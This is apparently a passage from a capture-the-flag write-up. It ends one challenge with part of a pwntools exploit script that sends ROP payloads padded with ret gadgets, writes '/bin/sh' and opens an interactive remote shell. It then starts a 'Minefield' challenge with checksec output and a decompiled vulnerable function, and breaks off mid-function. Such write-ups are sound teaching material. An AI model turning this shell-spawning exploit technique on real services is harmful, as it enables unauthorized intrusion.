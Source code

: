 ```python

def main():
    if debug == 0:
        payload = build_payload()
        payload2 = build_payload2()
        print(f'The length of the first payload is {len(payload)}')
        print(f'The length of the second payload is {len(payload2)}')

        p = remote(IP, port)
        #p = elf.process()

        #gdb.attach(p)
        
        payload += int((256 - len(payload))/8)*ret
        payload2 += int((256 - len(payload2))/8)*ret

        print(f'The length of the first payload is {len(payload)}')
        print(f'The length of the second payload is {len(payload2)}')
        
        p.send(payload)

        p.send(b"/bin/sh\x00")

        p.sendline(payload2)
        p.interactive()

if __name__=="__main__":
    main()
```

# Minefield

```bash
ubuntu@ubuntu:~/Desktop/cyber_apocalypse/challenge$ checksec --file ./minefield 
[*] '/home/ubuntu/Desktop/cyber_apocalypse/challenge/minefield'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
Thi
```c
void mission(undefined8 uParm1,void *pvParm2,undefined8 uParm3,char *pcParm4,int iParm5,int iParm6)

{
  ulonglong *puVar1;
  ulonglong uVar2;
  int extraout_EDX;
  int extraout_EDX_00;
  void *pvVar3;
  long in_FS_OFFSET;
  char local_24 [10];
  char local_1a [10];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("Insert type of mine: ");
  r(local_24,pvParm2,extraout_EDX,pcParm4,iParm5,iParm6);
  pvVar3 = (void *)0x0;
  puVar1 = (ulonglong *)strtoull(local_24,(char **)0x0,0);
  printf("Insert location to plant: ");
  r(local_1a,pvVar3,extraout_EDX_00,pcParm4,iParm5,iParm6);
```